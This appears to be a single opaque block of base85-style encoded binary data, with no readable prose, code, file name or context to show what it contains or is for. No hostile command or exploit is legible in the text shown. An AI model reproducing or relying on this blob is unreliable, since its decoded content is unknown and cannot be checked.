F-vyVAUNpo`Vj8QBVbXjB?FBi*dGwQeFy^VQ)IB+!C!14JmVj$vHeu2s+axripWaQNPh;%rqkl(p?dCFNh!?gF^P%oFj#oFfV=5lhr;247;Ga+!$zdM)9E)&Sn~$R#F0RDJk*POD~ZiqCrj6r(#YBl8)<omR~ERZZ6lq>2Irpbr-lP4_}MoVN0fEaY=t`X<hzZF(%V+4I}g#IctxrQml!Y~;poGlLjdBVjfcXjOV6+9OEw^1`nK0N|52i(gx5h9Rt`)ZkPUi_sBu&JmI$bX>_#>XUnLykUlD+}@>IAg1wN4#t`*xkfDdcpNV`HQQ=FgV@Ji%V1v1ZutIrNK4{In6EJTM3R#X2=A{f9~($Mto{No**)12yVnaP0)WhGXtaG$j~5FxjKoz0=I69w?ZrNUi0Lb&GY$F+EAxh<-@hGB!)6^j~J(PSymv;=n&2*>=uJ+p9_2rAymldb%CSO{TsAs*0<o0Q;6%CT?`6vH$FZB+*n{9t(AKnqK(M;RtQ&9s}VZUxJF2v?i8u&<(EL#KjYo#>N9>s}^kH_e|}HoZqPEQ1tV@n^MSx63=QcEGlxsq4rnheMFvtB1xr&oj4ZlQ*S=@FHR0THM_iFw)vp<>G?j6VefJ(X;b{9<{^M+H<su1u(>rY60|{1D55#LB2s@7f46R{!iiwt3}YGt$xuCVKgg9&<*>!^4y_cg0forq$v{sAaJ4Opal%~&sub89Jv|$63TrA5NraB=D<C2!FK#H1`l6(2P+9ZE=$tIBbxn}$c%L=X9ca5!a}hbPD(EH%O_q5m+1zB8%q}9y9`%>#z3(R%L7626{FU^8o5^ur$~XdCuYe!5eYMN9f<ae$shg{YVdRHs)E+t_no@wZ#pWzZTB8zHP3QEyrYA-3KIqFf%lU&2I37h!%Ks%14xNSj58BL;mzQXDvy?eJS^V9P<*tDi5SLZZHc)z5*$hsx2OlP0>Pa7Tiog4Z5pfVB8poOi)y;1nv9;}laKqbjJwRwkI<uLKix?*m2eOBUQMxfY5}a>7>*XJnPH6Ifp!u{C@O-}>u)@c4x9q8Ec1R-SF<>9LNucSBw&x4(113)f9C#7`}j8%ggTqvlAJQwGz83KaXPszl4rLIWm9TR40SEsLY@Qv31y$Xt=+VO;aMM`3TFt-fglD{;g58@{06c5Wkbl2SgX~?jaz|2UXl=uoMuZM7ual%@)3tcz1XYrBWs33$Dd47^^f)W@j6>ixC;Vwc0*>FXy+g~^-luIB++Xbm&0G*;#EOa9c5IuQF}0bd&9e5rY0v0d4=?fx27YckRBXL60y6w@Xhc&Su!j_<;5IrG3So+rKa5%S{Lbx_&Dp_wQ~oYj2knnVqH_@OXGmbZ<59QTm7%}UXv;q6J8s?&~)(QCAQf}>wra*;av-T=2bZN4iTZgBX?DNvc&z9`boE*b*T%0Cw?HdC)eLNobBX!HJ8&2kH?O)%8VWEL8Oq6@*5+nRai3`qC+=3RpD+{#{&Q=cv4Sar+(kNyq-vc3L9!NG?!O`j;S*++N<2+E8_B3P|j)SZt9oinFKkFRl^`DO!dw8ml1ecjxCa>MNQI)6_x|$cz-UV7Y?hRC$O;fQxgPg>CZxASZXK{a}bmsqco*2+mKe#9O_$;p1Ko1#%qDI;=7Mlcln-}9Qkkc3r;XlWaHE?S@DK;D;lw|+p8@e{J1#262fb)<^D)V*R|T(1Rkr~T)S>y)3eg^d8@BUew2#b8En)gp2KW3S?*PS+%^$`qF@VD6-E8Q4tO$g!4L1|JjnV2iorN)%uwucyl169t<^@Is_Ept6KDnPK_hrz8^nW<(_=}++2l=eS%$|A;$Qa=%b|lWbhhT1^CDieYM)F!PSz?4F&P@+T8=U~?MKvETZOXMZjaI#bga{QQ5#zVanMz2*o<<9&EITcw}AqRT4Eg@A1zdgae$B$DBo|_0VV50<Z`iYfOYH)?FZ{GqdbU#<J;AzIFONWCF|F+#mHuprVbN8T0qWx1l2&heWR)KD+T|~B(ofq<2WtUXHw}&oR{1yg3YzTM?9EMmjd6rETsz_j_ubc&bsM&1KMZJb@KG|`6VQeWit4KUYtXn$}VHc8JOXXcli>NK{qA9u}tKqqTpRKoqai}xvv4+YQURluT;+whcZo*Tp}{b6xXdVNv7m~hB=56BOaIty&bR<_3Z${qF&MN(wG9-PZ&f-qU9I-YMm1X_bv3z^(uZs<W=K4;$9uHjug9SRMMUy0u%fw%WPx!gxQ040d02(cUg_S_E(er1luo!{RK6+lGXt7t{lkxZMM(FzuKwLHmBCjuHs=e&qZw(8iEI?j#5#xB0?YGPtAF9GuX$FS_|9R=XxqG`Pa|4ru6c$a@s%CmcSHUnk5nW{EYJfsw*~MHROr%kmxxHj;4o5lnvI{&Li5^?1h2C>lkU}XI?CqXfpqmIII*_;QK9{cl`mA-&YgGgq~q4xjm^p;gn`Ss!;dKe%&un)>G>`Hfbe%>REN$_G~i32Va$|6$P9mhf_mXek14b{;9Y-vmzV;|Hq@o!vK>gu&tdhFi|RJn!v6Z6F8Ns26lUc*IrST$4;O`Y*9GJhyi$a%lS|E5@bwiccjWK)(+P`NPm+4S9F9D@3U$)>>Ntl8o)Xo$3TC*`(U7X^1Ii><y0<KRg)7!nGC(d@w<Lb7u&ffb->SOZsURBbQblLJW8CZzl!@^ZW;7}I4DvySQNHv6nC+v<#l%RoHtB&{xRQfjHCDc04bwg-~HHRUgj?d+Of9N<$(Csenz42zBuWN3(@808>)7%^ArTzT9DxPx~nPlc|4?V0h<Ka<=@vc#c2a#Te+O7TWp$g=7?#=h}pKV8UYz^_al#;b0vRNoBfc^#oh?Xm^_hE^mx)Lp!G2F1Kyu3Mdnuy;;d#*L34PBbT>3TR(K^jP*!X2_+wyOoV`qWZM_E6&nVWZ=9+JE_p|v(U3HW+#W9ACBM~oNPZQ^x#A4>v)ytAXha^K%N``Gc1jyjcLnLp(Yh{yVK;s+TCx;6e)cMD~r!D|^n83AoDi&25t`S#k3kS=bFisXcLhu}z1)uurx=o3|C31XN$(|&|D)=dfIGOPL$u!-k%!DUMeG(JDcYDzqGZ=*iYaK_=-u&X0lcidjm>kafvm9JeF-5y^N!JkRQQSY`--&NZO)KYqC`>!E4pX>>V7kzaNZc-*p_I<)HUUBLmBlCWH~bl(|E**Fc<Hs$I@-C;DxVRCN`hgMqrcv*S#v&B3joxnxKvv_6+#;N`+8@;Y)k<f|1P7Y&(mFh^HnkMf)U9VBf*E`-Uj}=#AtAwUuLGfw))h@8E~7q-@w)K8wyA%6njy~i|kMPU51C2K1O?;Ggj`RvtE61sj6pz@Qqx^1EYDC0W}XGf!Xuu=mShUxjn`*#G2B}0^^C2vM6jsfp^FbmJY30<S5pwGo^KcMOnlc?vi(K_dD*U>S`-KK;xtf@OmcB<MNamcfXa4Olr0+C@^Pah7X8)BW?v#I)Ew2*z6BeH@l}@4tSN>$k4e>XM?VQ*?#3ODZ}#%X~3;J|FS3>cGlrE=lBEM1_tt<0}4-MX_hFA{RQOJ;bMBD2%Iq}w@ExD3-(@jcUH!L6WNd4Fk{+!jr~GVMQNQLlSBgX8PnnGs^RKG`sf{d)p>wB^Ml+el-R9vuApj?L5-g(SIn<Hvs%d}kl}pKPI2}{ja)5aadom48qDOr%|n25mw=zoO1S;7)xcA#P6bD35DXZ~q|2uO>CuFntRNNj{~`nfLIkb=`o^xbw0%)*K`h5^v=!Z-;8yxeFd!g547Fk1ey}taSK!^55|Eqe4u563pTt{yr4A)q3Ts)<m1k&Q?A10-y@ne$m;Vcl3Hq}o*OA(mpu)td-|;UHtHNXIAn3ec>3k0%&C8HLTxCgD3Poi9bG_N~ZGzXRN$w{F(g^1%l|^hN34SG(IEJe9evG}Pibh(lR!sqP)TAdJK@zjTT(*PiT~{{H)h_&}m%cjt$R99du|m2<UrH+8o`Nxw^k=!gA6NuuwJ<*V&kcm0n$+}4E>3D#wCGYgWH+-W``?DFo5*9~nDtYH^EDOQgX?`TGYOI!T71*q(E!uwg}vK&gR20~(a2jk7LxC>KFin~N;d~X{UB8~kEC>0n27ZPb!{eno)^(U3dJ7YeKvmR&-<Nzlz#c32_H7Qv#JUt@TibNaFcLeqen`sJv4l?`$dV>!)vCk&RE6J930737TFL85)V8K&@TA+<?IPWd#}(I=-rPEod0kl!(O010w~JDYW>)BoNqnjOrM_bTS?&WMCUL2+@kL(!eTCv)aXaaOu&&eFB3oXf)SV3$i#@Nw--UI^zOXwFf&;Lv~u2m`q~qQB?eu2TQ435-zn@BAz}V8Qe)p&Y9{6CEm8!E6h^=mbypY!uXVshUr4dJJE1^sJ?wvM#VP4L{N4;Uw>VLs?B@mOHzUrj-@q1lg_X*p#pl=E`>-x*P}*S#!NhN5X~dw==Z#idU25~JL0FEB`n34$^`;PWr;>${ho2r*QFFJ;^M2CK5i<x3{tLMTF?nfbGYr_24Lva-$OtTq@;Kl5g^d=RGr~*9Hy6_L{m*~?^2nn$d>U;py~mcJ@862ONbtFsfGVv#Ofkejk}A5Ih^~?V3RE-@!wst<>HT)G!0OG!s_1DwrAbMd^AN%jg5c{KK%Sqm_<tOAO=S+5jh{IpBjIx72@{X99GOg7l_^%*ZAkN+Q{5Zy#<J{qAwmu}&(~OiFz%|X?S4&T92N@MX`mbC0|Y2be9*`_51{}&r&5}9mBdu@+Q_T_s7B-798UP8`k@9+DrkG_f7Uf<%vm%7?`_TN@&pQQHLu}ap%n83#8PFEiz_LyV}YQ}7d(u(7rk!a+i)jK(jpx4p=I#^iQ(#FF{b>u3K?b_fqm-q(r41v+8K5eyM=M;Ba(J_HtY%#`_uIdAw`4Z3GhBG#(dDEHTydj7Eg+kt3((x(%0@#qXl426Ve*(brMNA#aFSpgx^q8(52!v?t09%<&$-4$$2)LaE)MlK2tDc^K0U)@g*;$cGPirlV<yeQ9qG%U}^fRNu)~Gb79AGy2l3$`lqah&RsG-29#V5uvKwC-4ijPHj_3nVfSqF+xpz0nz4a6i6I#ON}-YqTar!httmeEM%%}Dg@HfyN4!m-v`-fCr_5NP0bcpWlptHup^iLezU9AUjwAyvcK*7IGFAI;SgUcp=*1bXQFIxv?^i$Rp~z~?48Tp}yrZCIRa3eCd7|yu@k;cZnA8%-R9?Mba9_?<;*32?(|Q#L#ZN*kM4{%9D0@BGA64Y5Y)oaRZ&HI7&T^8Aw;c^?gvh%Y{_=}0xUH2+y!-2MuhC^!+WMmCt3;&hS*F3r-;lE#9H9=n`_B;riDiZ9LI`<6zLia-L+|-X?WAtg3p1=fBbF=1TU-alVD=XBVaZ7d)Udt57|P8ufnFaT6oS}KJ~?<mnyf7qmkzrQK2es1qMdU*HK6~Lnk4<iMACi`?>7}X*YI6Te&#U<NHA)bwLAT{;(8hwwgz`y&8D{1{Qlj*mj0Fl&JPte|Cdob_7|lEo(GxWil~hZMeImslf5L~F_^iQ56-8%ZVJ`rZ?9Q~P3P17EU|3s8aii=OpAzQ!J06-wQv(JJ6{iouBXrf^k)p~{syDKw-?gYuDZW*7+c0=udQg+2;h>s$GjhA_?8!UYiKik$;?fpnheUQ5A`PbXwfWJ0g}h-G1;55gXL>Iqh=Av|LVq+ssml<unYZlHLg~rjhDJRhMS9sNXSqOinERqCYKC$2bHzW@DZ2g!cVyaI<<lcvYYT8iF+^QYaI3W7FUaWR;3NjbRu&f^=_=b3o5b)ja8BJy8^CiZwK7S*I29`6>!?zqzDEz6d7oKMp;*nlKE*3{&S?9+QtXX2=*t9e*I4uD#UXWX=7M~+esl{hI2b2*A3nMY_4AfCD0E5lu$LL>bb?k2kQ<ZEajBgX5!31lGR5>M2Nn&#9<xwMAzVN6_4i5qvGUqwHY#Zv8XwX0CY<70Eao3Sq(p1Ft|^=<JKvZK_PJw?we<4Ry$xNkOW7{{ixefwy+7u022o!;|~->UqwB}dJexpd(zFK^J3pqbsnQwluc9L&tgyYUx7D*De@+uC{x$`V6eaZD014<EE!JVX!dK56qW7p_Ctfk15F=6*^bHhzl3PR!Z{>y0f&N_Hba^GY2<;V!8e}$wmrx`8FAW?HB%T`3!NhKtn&yW%=3UmK_O6k>b{DV*PVWD;}&(GzB$=eD_ob#`hBj02_XX&$!L2LH<Oe~5E+O60%~+j$7dS>&XTgzfaBg}W#$VN1~@)(b$^0@K=W(yY0?oDZ!IQArHP1tlwo5?dl)n=a-7YDisV54#?Yb_jz*0Y!z}w0H*J5zJF+<*nF@{h`PjW$2wO(=ePHfo5<zDxa-r386xK!ScQmX8eV-j&G|mc4+`()_zaLML)w`B%xs5Eajrlhg>{W2fC9?L=`%g?~oI~jd1OC$J;!joJvG}Mj{tB4qN_wdqo=fH;7h%allRQsGzyZa=baxzOfG}_-;wP$fd@fwH8-FFTnd3@-wgWvOCcRv$IomsqPx$D|@bWy-ZqdW8q>WgA*?=ff?#Xa%E8IwAp0r20XPj#ms5~GRZ?s!USA1Zib0(;C!;CB)U5lkFk?*&FCa7pQ=JqW`peVTp&9om`ybnOQ9q#(^jJ7I%yjgbEzu2c6n*g^dGNJfT^6eBZMJ@Sy5j#kDHD$orC^~?{Tvo;Vv0~aee@}mlg0(|-O?e5Go<dL?+(O;rJKthDKukAlng~=`g#ulwEK>(i<F%*zSm{x}40x)r?gSDGYs2$Blpq4-L@V4x82!@@Ri<h=855(g0W`eSgFXU)X@&LrDr-K!iD(i~L6#w4hWeLijE}@}X|ycI_i`0FM6sTL5b?iA#d0#B`M1hk##;mB`Ux=5wovjNLmwfZ|4DM;P<a%ooDUG%7ahU@+Pr1Ufn!vy47Ug_gZsMj01Z}e?ohFlR>trjN;T2;?bX3cP$}1tu{;y!m%8IjAhN$UfxA4LJ8pSp%j05MMimgt<&}(eC39AoO~dsr>^pB|Y`4}_^!-6skT@zTQbXj0#x3YHh@YQntz_LiYL=Oh6MYY3`xpCbYwWd6u+^5P#agPVt;<(SDno~!Yj_Yr4|CSUvT%&mNJBo)NM54+yv;)^?^F@V?7|wy9z{?%dHxRY<2g`&SlIt4lmRjs_iVKk($av(n-<U-S*_-NC%~L8@!BMuF^bu60qycmN-3-|ivy;DGv+*KkvuDFUGGEbo%ejf-|j`)BwKDongWw37%^k#q+IhmLOoIdHi4DOaQ3F!sP*FsA!Hu(#Y})^+>>wP>=bIfO>~3vnEdGFJgk;{g+FJgEylGn@KwK(Qyb$XNCK%?LMYm?!fa(dc^%%tu*hv(ZsR;4r})Y+Ew%Z{K;#|pW;F2b2WUs%LDWJK2Wk4a&;k1W;p=U6^IWpqMp#267TGTmh@jpyT{;lWbs@p9Fz_vUhYay_UoJBAJ#w0*j`angI>gw1zf1^bKEY+8ef<!P!G@5qGvr71U8Th|lH7;}W<rreA_OC9kd#(Lr^jVMftKBga;AiTu>-mB_tdE!yWh!@VBd2vDhefFUQOr}bGz8@IRc5es44reZf?A@wsrK4zp>sHu-w_ngDoiVhwjK;$NQ&meWSX~QTm8Ep}8|C#CCqG2$m1ku4X44Exm-)HQdCx2b@0iZExd;u%jfqmDZKY&2wGch!MW6Ea8JljQcF#f4wA8KdXScuLvad7L7iPE9}o+u*XBaCTLlTSo)aQRi-GiqX#3$p+cYt=7H8&=-2Y}OkL>k?u`5rwvg%;30qJK0JT%DTy;sBoa{W1Ot9^C9?41Ly7-z&MzckQk5!_ATa$#?AzrB-EzTW&XZXx~tBlqwpA&~zKU`=8Gd2Z$bg!!#^!15*@67|pn-qlm3mrHL`<_QqzYJT%r6)0ed3NUB6;t`J;$uBq&JQ>xk6w}e1$KxT)qtU^5zxFT9sP<YYkqEXrCSd*c6ck?7U}lB7WEkXii)NH@`gm;042KNoV=9tHQXG%J{vbO!%!G>OsA$+GGx~&SFK)1a{Xdvc~m+b;K)T;cU&v6A;!<LnADDe3n!%oE-;I^e^Y!}Ep2i+ci9AVYoI|8HI??CDqFZq06!+&o@i6#I{$_;)lD(IPHevPPk4<U%%d$MR%|Ao^x4r_Gf%yqBc1f5TKJVJxXYV>u_~}5c?s~hC3Dl%FZ*>@;EL3639c&^M^OoL(KDS-Q94v=$UPrT`G(*WfkQFS{}(X`Oi2#cbG{GMp2YhEC1v2CSN<5=XeX|#3_IdHDuVpe=~-3;w`ro+I5E<e3jKMmF^gN6BqNj)&0X?+g%cR}YQs0wlslv<6q%LV-mgG(vpUbRH<poUf}jOuS*~HvE@8%e9Dp6B$x9N2E!F9P>X<>dF?<wkk3pjbYyGq@$7R-+2c_i%Rnvo#)vq@f;|0P&4=MB!qKI+!gH|0*;G<vjutUE5fjLTMA1K9?^>oVNa5_>|?c_khD1=!ieHaWOm(D@&sAwi3n|+f{c+=+Z`YWB7u6E?GF6VSNwH6(i^AK*N<k>J5+uH_N81=oo0B`da8l$;B`-A`$@`|h$bthuAx=7a~67I+1n9$SN(mFnS`yOK5JW;-vVUO;=_I_4NaZ40BWYJ#lsP>j^iXT{vQ{-P$;cL8B2)B`@eM9NpiBW*}`Cy&L)4w$Lc&#w0c$B@|z8rq2NR3H(SQ*u(iKw?Ph9YtE7oM;U)0A3w>9NbS@(rQspsn!4$(ojziMjFi+It3CS)AklA@Qezc+J9IJTimrh1R;mN;FXv35Q^7Pw{_{D0K+4n|aIP@a|FZ0oIM)mkw$JxwY8~gYd}s8*^?BckhB~6C_n<q2H(^(_cPs!*50JuR7@fCpWz<;Nwo5`bsH0M8Kk6ig`?U!4_tv*Qz$Bb&fn)-kr9?*3D)|0+zetru(5Xk1Ia$24CU?w$i4$Wtsk%M!ua?Q3go$p(r+2mFusM3m#kD8P1<uT4dg!QoW_e7`aJOX1E{OXmt2PZJ8{c{tC37l9^s>nhN+Z5B%%iK_P2|#2<P5&h#+nsbSKHFoC6E$tuO&*iLj|lhQaVCuZMbBoaxL^RYO?_5QK3)wDIRC1%}VnvBO=NE*%m)sZFhs86YBKOh!GtJO%v-UO5y0<;Wz2q7c@6Q}FW!f!pvE4YMM?8uU_o14?3(7^HcXI$iL{6`H|%_La0x~|*yW+@Jo5|SHjF2u{HFL8r%d3@wei;~m?yiBptt3?2j7NRL5FNg2;*UVXK;X%NSVX=GrIKUhbk~;JAL=^W!1$Rc5*C}5E%`nFi2?F-jHAg+uYe50e7aIMA%y*sGz<(03AKDPS;|<E15IKCc3L=+y9Db)u1&(fcAt+d5Yui6NpTO*HgT3N}ulT?_?kqM>0R&%f7|M3hUXXxg*-h?(_mU7v-gwZ~Md{}Ek(N%JyMZek3gvZ4hhp<JOJ}D~5S@P`)SQQW9PapqlFo#Y!(-<hvDAfvt*M-Qq`#Dxen@>0m=bl*;5T3W9s6#ElLttg^I*yq6W+%dgvzn<Y~)3uk>e@T)(>))y%%FI<XA$bo~MPXw?I$@HtbA}mmS94*oeamj+tYqeEs@g`;~XH2wC!8-A1#?oj-)>45b2mpNUL05irRMF2f+GmKu<eZ5dYCt`YB7UgocI1mnh3Iv`YZ<)gGhNQ-fZ3wKGJg{&_;Cir>(%l4v1Tuyy|L7}FPYfM9Us!GlMG+MI?O66oUJc@@~gF4Id6a&6j56R6BVZYq)Glc1uEFecD*-`QX3Wnk(;E_8*Q`D%{W19pfcGVs>t#+E6eXl9Xt+RktX~=lVCQUrz5u}uUHoDTrrQy~#2dB4j`ylT|L>Il42-t{89zltnpY?YTU%lFKh`{LaQ=W7v(|b@913Ew+2P*4-uYX_)o^0X)#W%Np_YF|J_VFg^67IPW7i&{9_Z4-~dnzhAE@ap)7tkvGf7rBDJ?Xp0(9eZ*B6m=GFiu**+Lp$nwY}8t!c|=OUdp+x=)BJEOt;U073UU_xlQo|L^Wwi@DkEqrGrPNj>cY|i@x)c=FEmdh2rWi-#xeaV0@v~s|}FnBt5eIIKWwG7+_*$FJC5%I&riz`$5y9FPB5yWL^02&A0EOS!gu<z6d;)dmc3@(J#k12c8=E!caZ-U)U)cC1}n>aHlCWzd6z+gT<fAg$;}it+1SL!r;iNKeyArxV}DVxB5Iu8Af>@DC7LDReM&CqH<cq-O{;to(qVad{W|~QFy{xGp{)Y<=u$Dnp!A7<b&D}#O%bU4BN=fBLiiK230#vVD*i}?vm)A3fD{_&?tixo_2y_7+hG=(qSlr#wq~hgXR{`azRxkTx>$xKSp^C-071#lm?jT&dyNb29A?FD@n2BC5d`r2iFFtwRl8jLC>x`ke6Vv7Zp(LtT@Xb(;q|dDP`|oKHm;fCo`(--8O4g7As{ff0_p)6C^b%N_=5cgW{zdd4l^9UHrj|XmEgt%9zxim=k4jc4R#-ryr}hE<D67W2+8C*c2nAMH9Re@2Bl{J3@wwS&eLytye1&B2t&W2g^b9#kMXPWAj$=v1>$$SBMLFEyR(ap<tQ}1?bd+&8_r<!-K^m$2gzXuMf%Z?ms>-(18_>DcC-#eQEMytXo9KO*O$#<?B>_&kg5vAi&K&BWqw$@FU6h{Rmaz2*w*~Oo}nfk*70(-U0w1YTyHP+5MY`8;6)zR-l44wk|MS?te$d42dp}P2t{!b_+mn{ZIy<ZxQA3JX4o|hVF??aeuCB!YG!S9$-w?HPuJ!;Rb&nK$y!wcH;KKfi82Q3RT;*ieNzUBdZ~_)sSYrw+7`{LU1{@0tA2^iwFN9IE!IEMY1bv#?()y(txMs@s9;7&qI1CvFc89VE*=t9%vpUi`H(qOMS~gbY39NP04fbf74S5L#JhMKRq{%EyX5f_WjjRAHx=qGDv-b-?#6X2s?bvJA_AJRV{OgM8ahWPu85nZ9JAN`%9EBe78#9oDvACD!Li%tws_&V!2Q!DRrIlmJN$dei5}wr(DRleu4mo(|=E!&n}rv1=o6K&8e;~n^&UMAWK?L2Kvt*qT)9kSW%#~Zf%%e+qQ>}{_d-St98u^dBk{TFSVas?g7Y)_{%YYs%|Dp3}nU${5EHn_!R!PhPv`T^WolzzY=c*3@!_~Nsh=(CMy1kI`WmZnmaX0*h~V9u4cI+w-aLpz?IjY9wCAZBNGF=aPhH33sFgjj55*HtRPRXoRqLyo3<^A+JK-LuGGD36ZF$4_xoe(-^|veC)i6!@W1x}(jp2J8aj^<m!hojy4srLSBLx705Nj2oFhwZZlZI%d?2=*7PxwRH1`_A%&v7zt6i8^1^Q~ifl-J>EDY8iAdj3S<R5D{;t;W5Gj>HaQ8ImgWDQ*^`FjxML~tu&y3y=q^78y2%4d}4y&$4Ve9VT1RKtD&^lnCC)IfD2TJYE`vWv0q8Dn!m?rCg7W-rVi4pI+BBFTc5>R?<~HFfYta>F4FSeMS=P5t1Y5<D_#!RTg*?~ZF=HBFAEZyzan<4vMhq+-$UQbe;Mk%|Z#i?N>9=^mpFVdN~uuKJdNYQ|Gj9Yn(LZPV~5_tsRK_8ktBYrQ+>%Q#aDEgVrOTuCl#i-7S2ntop(IbH~{Px!%6QvqgS^$R2HWk_<=S|X{!d~O)Xi;Qh#wPN&G9sNtk2_|?lcf;Lkds}&PPZHsBH~CUVV>@WRZuK(X0GkTk6ENokdSkwDyz6C|yk)rQMt2SIiRjxf%6!1?r-(fl;w73yb%&9Wf6%A!zREc16O6RIsHV&Up<XiUenzP{Bu8rk9YZ&YNbh5%i`IKO&#^E<OVK03M^t;nukp&X$SbPh;~YOPp$HcxyA>JlE^SaDED9h-{WiI@3g7f3hvtVse(Ra(=P~kXlh<!sgh8^e^*aR}3F&Opy@3CyXFHVyY21A`FhsB9!-ku(t+mirVAZr1qPq4tWO@50rSn$dB?^>E8vhLTn0!UaG^w++?{ww)-p7EnIVBg%w;uJ&Pq3vK8zz}r0NbJW#NeK<Yu81Lx~ro*nO$OkW$(p6nK~WT|8==A3Os_hXU6Y<Epnp|M))`JC_9+e@lSkS?=e~|aVl1d_r8&5cFw+%J2|>X-&SB2omFjeM{R%bN<FEF_em!OZ&XywU@}7u7x<g6{vWcGM|jsoCByCUZYRjX&__^}P&HYB&}v@4y524{P@FXJAP1M-xRnd>D8~(yjKm`9zzO=3Yl`1{ME+{>kf;kUIUFexk7@J2iC#}!<eB$QImP(l^Iv_?VLSp@n@}aNAKW5d_+068CZed~W)?Dc`@yxY8_n3+w@WCWI`-vZUF&oLXMSQA7-WTLBF4I31sv1l-j_fvS20mdvs{5n{>OW70mCq3k%}<EH;h3o(KKb?194IGyJYk#QIWe~19DUsSn^!;D|snkFp%zSgIXaN+2c%$*~94?UFZk&yIB~31nx_rVnvV;cB@u5zE%p=72OJ4OWCK~9YoJpGj&OmFdMO7%(^B#BllA3?F~f;DmmFMCyOyy3zQ`Un#+ueAPffthx9owiS%EppONqPEUPr~roigu6E?VeF4Pxmw&1er;rj4_s&O7&!;4Ua-aAgxIX84%-nOQ<CuZ0VI&^%bHV+ykH?1-ne5g5fT}sVgzPn&`D6DGl1~Y!tGh3Qn-|in1x%2T0#ECJxV)6+5#mq2@Z(SJCC+E?4M8rGt*bk31aCyDjl~MGrYy3<e)kG2}uvExt=AHuRTSYZrxeRt{l3*vPdCMNJxeLg#XbPv=;};jGlWUYUJ7*~+)D2P5Ap0ib8F%(^ekJ?G5^^dK)0GSOeYhQKkh5IDJ;c?4-*6#{Aa%Yk1wZOlyDP1@h)}ERGEBMTM4cMo-R!u~IOpD9dtL!fzkoRI-KWPb2AwE~@e;|-BLecQ1^<KFmLAx1k)+@ns)^G8K-3WmVq{>=r6r_PKP}Ji$r6?#k7s7yD=n*nqwsQ!E0%6}E>4D-T=#G_I(C|e;J<a6e-uMyq8mm?>NqSU!n-1*2p3*2Ae<>2!p8)*BGS6KwC$<%3`X$asow4rk-kz$Tx^G)srUyi2}(xCqGzQpgp8x|*Hjmk`-rU)@9o@kf~za27!2TnIRXLUuwc5oVBt*r|KA7(2ZKnth4UM=-#qW3${qGS{dxso{WJ5WdyBefY;H@0;SSPygh(&Bfg2sl3dR0jqt@m4lxE?@gxCT8ZH!@c&(4duVWYH?Bp8VO>#5oFm-PFG34IRlJ@%TU+S3=+BQ%5PTl_<HH{AdpS@=xNiYj2kGtc@;bk*+#cx8c|W2txkO@Ns{ZL{q@et~dXsf2Z3C5VFHI<e1#MBH+Y1*0G4uh5ZPO55SWqXq7e1E3+$wMFW+*3`0~J?@bYyU08ex}}w--U4s_p+ezV4L6ZHEk@iRdY01k*EiV8f5DSaUWRcK<|yxJV9Y<=nA+_IH3~+f38^?M(rUw&AeP`(b^~S=_O94B!L*FeP|G0Z;{fm5<)V{ic!T_JhA^|BVU6S#$5`KcVX%87aQN4ix7~wS=bHt2vWq<-<aO2Dfou@l(Xu@%xbqEliep^Pv7B0W_()!{w7n2ldVV88{BKRyD6q(<M%UH@-qLR=N9vCuzWg>O1v*c#VT98V@=`(G#l^hbM2D}=)E|r#3oeu3*N>CF(r$Ib!y3e8v(`Kmh#aJKb~e~|xFHOHzT@MKnhxIQ<^>a8!;U|(x~9;2us5TP0`*s*^~&@ix~1A<jK%wVd!FOHspWlk$1UT;E$d(j__||T>#s;C#Rwj5^elVgD4+U^awI8GmD*d}dy&{tAaiWSKDokr##CW3{yEv;K{SzKl<=n8O2xvi)!!KkAQnm8!{GB4AyjqcO;bx|$Gf6l>z4g853UG0?7?+a00+GF9o1`oc1}<zvEL4m=4iG7(ax}P9W(zR@3kX`Wx>(W+~ens{@@~9uP^Ii?|tUjudYYIh?GuvW4|b43Pr|fEUzk&`Y&?+eso#|?~1;Ja2BoE$PQ2ec04HTN~5|RgIW524Vc&TDRiLa^W?2mS0;!vy3>@!z_vW_XfIc>9TmS=WhB~juHuDQ5WabBX218jbd;yahevj7E7APza2bAB>?LDV{X2$si0fH8UyN~cMCY7l^ed&*kfIBSXX~W)m#W)7jO_dgN-=Nwa+s=;lV3q18VkA`U*CBn>PKH?yF))cX4C0^7Y!>thUHAcxyE!X>xs=SBsBeyMuEy#R-_n6zIrutb*erj6^O<9+p<>fnb(a{NH0})#fV1*dBRg|Ied@FTc?aV_YNyy?KTZdu)>JyAgIu*DCqyO-@|qzFMVdWE<Fu_8MAfNUq^3320q#Y8-5*V(bfTAW7%)^mg!XoSPUHCh<)E4s*4C%DBE@XQ-pN;tp~|UnDZtGQps!rlo;`#bRn`xNGEuLP4nyBTnK_snb(UzWO{TUuhP|A{1ZtqtGH)Yz_JtglhdjGdV^5TCgNi@LeE1qv#%4y;wpeXF4{59E@v(U*BIMkdotHy9+0M4Q_$V520wyvE%$Fy@d(l+K4pd^?eam(3^kQjqt?nJPWY(b35UQWYCOS}FD9wq$E2^c#Un8hNYUi&@gqou+o!VMCA8=wk9u`^IC}KUjx2NmH+vIU9R?1*!i{d}8v1`Sp}xWU%YyyQJohypucO%A+b4nh#SquzvrtA!p5+ar%fULu((B%n1Z&ARt-g~<$_}=v!0rcW@q_@f$9p>hSgB^u60K{r*65BBnbm;ev#lbD<DVg^b^iVWzouVP{Gz?yUX5M1^>~@WXFYA6|H%lNAXkrbp2Cg<+jF3;^`y#*2?V5E_WjI3LnHrg!+`#I`{;RfIWB-X?3vBIGHP`XY`WX89+0LnkYWlhSh$Hcjs5WrDQk=G0B-0B>6M;&?SjYgXF3%#NoxPaodbO1kBJv6U;PeNj-NE1iTpAX=RoIz%6?Cv7-oFo2lPG}W6eS-0c6dy7!hczFn6l_uly29Izx2rYdz>>NuFpX<HF5S^3p>Um)AC3?=%L5n<+?lF&lEV^dewuZ~u|uf9<nl^9y>It_%M`ZAAi0LWwf0n}TU>f3oG#CfX?k&@X>tl3wGXH>fs8Yd4)C;TYuw$$O;qI&T$6%Yz3+1*vUn5&~xq9)o>aS#wfKpbnayE!u&RMf@KB<&y*+Q*h&Mq6~<0l7x8_{Xd!7gQ7-DfJXCXJej&!CIXj9*e*bD$|N2#VuF5dWN3mDJb1S4W}&h`$I1VlGsoU@RPgUB542I3SS#a&^u_^I9LNeQU#{;+;7#=!g^m|S#UnfuGj0;U<yJmU1Z0Rt7|1#FV}N|adTe8bhBJ5(S?!fpL!-Dr`GY{YuwQ;S4up0+3(IjR&K-c7Pp}3&n(5(1`HymbGogg}t=1YO92*5aj_I!%p?%>)W4x0(mplo*K5t`+cS-yzjEkU<E-glw3^Pk{WJn<g3;o^cLySObat}?+2fn`ME3n6gfS~vCK@<x3-R;ke)8Az~ycvTM4rkUCvA#??iIE=MGwchM7Y05qEBR4xEkr)